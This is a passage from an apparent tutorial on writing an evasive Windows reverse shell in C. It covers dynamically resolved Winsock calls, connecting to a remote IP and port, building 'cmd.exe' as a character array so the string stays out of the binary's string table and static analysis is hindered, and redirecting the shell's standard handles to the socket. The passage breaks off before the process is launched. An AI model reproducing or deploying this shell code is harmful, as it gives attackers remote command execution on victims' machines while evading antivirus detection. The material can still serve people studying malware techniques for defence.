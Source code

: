 we convert the character array of the IP address to a network byte order using `InetAddr`. [`HtonsFunc` ("Host TO Network Short")](https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-htons) handles the port number conversion.

before moving on to process creation, we need a way to validate the connection. actually, we'll need to cleanup if the connection fails (to prevent [resource leaks](https://en.wikipedia.org/wiki/Resource_leak)).

```c
if (((WSACONNECT)WsaConnectFunc)(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
    ((CLOSESOCKET)CloseSocketFunc)(mySocket);
    ((WSACLEANUP)WsaCleanupFunc)();
    return;
}
```

here, `WSAConnect` attempts to establish a `TCP` connection. the cast of `addr` to `(SOCKADDR*)` allows use of the generic socket address structure. `sizeof(addr)` tells `WSAConnect` the structure size. the trailing 0s mean we're not using caller/callee data or [QOS (Quality of Service)](https://www.paloaltonetworks.ca/cyberpedia/what-is-quality-of-service-qos) parameters.

if `WSAConnect` returns `SOCKET_ERROR`, a cleanup sequence is triggered. `CloseSocket` releases the socket resource, `WSACleanup` deinitializes Winsock, and the `return` statement prevents further execution. 

### process creation

once the connection is established, we can just launch our process, right? 

```c
CHAR Process[] = {'c', 'm', 'd', '.', 'e', 'x', 'e', 0};
```

again, using character arrays instead of string literals makes static analysis more difficult (by preventing the string from appearing in the binary's string table), but we need some more structures.

```c
STARTUPINFO sinfo = { 0 };
PROCESS_INFORMATION pinfo;
sinfo.cb = sizeof(sinfo);
```

`STARTUPINFO` controls how the new process window appears and its standard handles. `PROCESS_INFORMATION` receives all the essential information about the created process. Windows also requires us to set the size of the structure in `cb` (count of bytes). this is a safety mechanism that ensures the structure version matches what Windows expects.

```c
sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
```

these flags tell `CreateProcess` how to treat `STARTUPINFO`. `STARTF_USESTDHANDLES` uses our custom handle redirections, and `STARTF_USESHOWWINDOW` enables window showing control.

```c
sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
```
